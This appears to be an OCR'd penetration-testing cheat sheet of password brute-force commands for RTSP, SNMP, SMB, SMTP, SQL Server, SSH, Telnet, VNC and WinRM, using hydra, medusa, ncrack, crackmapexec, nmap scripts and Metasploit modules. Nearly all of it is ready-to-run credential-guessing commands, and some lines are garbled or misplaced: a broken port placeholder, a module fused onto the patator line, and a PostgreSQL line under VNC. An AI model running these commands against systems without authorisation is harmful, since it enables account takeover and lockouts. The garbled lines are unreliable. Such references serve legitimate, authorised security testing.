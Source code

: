 RTSP

hydra -l root -P passwords.txt <IP> rtsp

SNMP

msf> use auxiliary/scanner/snmp/snmp_login
nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]
onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt <IP>
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp

SMB

nmap --script smb-brute -p 445 <IP>
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1

SMTP

hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL

SQL Server

#Use the NetBIOS name of the machine as domain
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be carefull with the number of password in the list, this could block accounts
msf> use auxiliary/scanner/mssql/mssql_login #Be carefull, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT

SSH

hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh

Telnet

hydra -l root -P passwords.txt [-t 32] <IP> telnet
ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet

VNC

hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc
medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc
ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T
patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>

Winrm

crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
